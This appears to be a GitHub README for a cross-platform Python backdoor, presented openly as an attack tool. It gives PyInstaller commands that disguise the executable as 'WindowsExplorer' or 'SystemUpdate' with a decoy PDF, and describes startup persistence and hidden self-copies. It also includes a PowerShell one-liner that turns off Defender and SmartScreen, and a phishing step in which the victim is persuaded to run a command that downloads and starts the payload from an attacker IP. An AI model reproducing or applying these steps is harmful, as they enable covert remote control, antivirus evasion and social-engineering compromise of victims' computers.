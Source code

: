 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

---
## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   pip install requests pillow pyautogui
   ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
```powershell
    C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" ——version-file=version_info.txt —add-data "sample.pdf;." Unobfuscated\plain_backdoor.py
    
```
  
#### For MacOS :    
```zsh
    /Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
```

#### For Linux :
```shell
    pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
```shell
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
```

4. ### Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
 
---

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.


---

# Evasion Techniques :
To Disable Defender via Administrative powershell :
Note : Must have Tamper protection off
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisableScriptScanning $true; Set-MpPreference -PUAProtection 0; Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\AppHost" -Name "EnableWebContentEvaluation" -Value 0; Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off"
```
To avoid Cloud/Browser based detections :
1. Convert the .exe to Zip file with password protection and use email phishing 
2. Convince the victim to execute these commands assuming he has 7zip-archive installed:
Win + R and then :
```powershell
powershell -Command "Invoke-WebRequest -Uri 'http://<IP>/Windows.zip' -OutFile '$env:TEMP\Windows.zip'; & 'C:\Program Files\7-Zip\7z.exe' x '$env:TEMP\Windows.zip' -o'$env:TEMP' -p12345 -y; Start-Process '$env:TEMP\file.exe'"
```
Note : The backdoor will likely be flagged unless Defender is disabled 